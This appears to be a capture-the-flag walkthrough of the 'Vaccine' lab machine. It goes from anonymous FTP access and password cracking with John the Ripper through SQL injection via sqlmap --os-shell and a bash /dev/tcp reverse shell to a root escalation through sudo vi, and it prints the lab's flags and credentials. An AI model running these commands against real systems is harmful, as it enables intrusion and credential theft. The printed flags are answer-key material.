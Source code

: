 # Vaccine

#### The first task is to discover the services

    - We achieve this by running `nmap -sC -sV [IP]`.
    - There are three services running:
        1. http 
        2. ssh
        3. ftp
    - The answer to `Task 1` is `ftp`.

 #### The second task asked for the `username` which does not require a password.

    - The answer is `anonymous`.

#### The third task required us to connect to the server using anonymous and we downloaded the file we found name `backup.zip`.

    - `ftp [IP]`
    - `get backup.zip`

#### Next we attempt to unzip the file we downloaded but found that the file is encrypteed. So we will use `zip2john`, a script that comes with `John the Ripper`, to generate a hash and then use the ripper to crack the password.
    - `zip2john backup.zip > hash.txt`
    - `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - We got the password for the zip, we unzipped and found two files. `index.php` includes a md5 hash.
    - We will use https://crackstation.net to decrypt the hash. 
    - We find that password for admin is `qwerty789`

#### Remember that the server has a http port running, so we try visiting the page, which presents a login page, we use the above credentials to login. We notice a notice search request and we will use sqlmap to find more details.
    - Obtain session id from the page. Inspect element, storage, and cookies, copy the value of PHPSESSID.
    - We will run sqlmap with --os-shell option. Here is what the command looks like:
        - `sqlmap --url="http://10.129.148.118/dashboard.php?search=sandy" --cookie="PHPSESSID=5i6lg6q8ok7ni78o10g9t904l7" --os-shell`
    - With this we enter the os-shell. Now we must start a netcat server to start this session locally.
        - `nc -lvnp 4444`
        - On the shell enter the following:
            - `bash -c "bash -i >& /dev/tcp/10.10.14.79/4444 0>&1"` # Note: 10.10.14.79 is the tun0 address of the VM.
            - This will start the session locally. 
        - The session starts in postgres directory. `user.txt` found in parent postgresql directory.
        - User flag - `ec9b13ca4d6229cd5cc1e09980965bf7`.
    - On further recon, since port 80 was open, we visited the /var/www/html folder.
    - We found a password in `dashboard.php`.
        - pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!")
    
    - We will ssh into the system as postgres user.
    - Running sudo -l tells us that we can update `pg_hba.conf`. Use the same password.
    - So we open it `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`.

#### We can now attempt to escalate our privilege when the vi editor opens with the above file.
    - `:set shell=/bin/sh`
    - :shell
    - Now we get the shell. Running `whoami` reveals we are the root.
    - Enter the /root directory to find root.txt which consists of the root flag = `dd6e058e814260bc70e9bbdef2715849`.


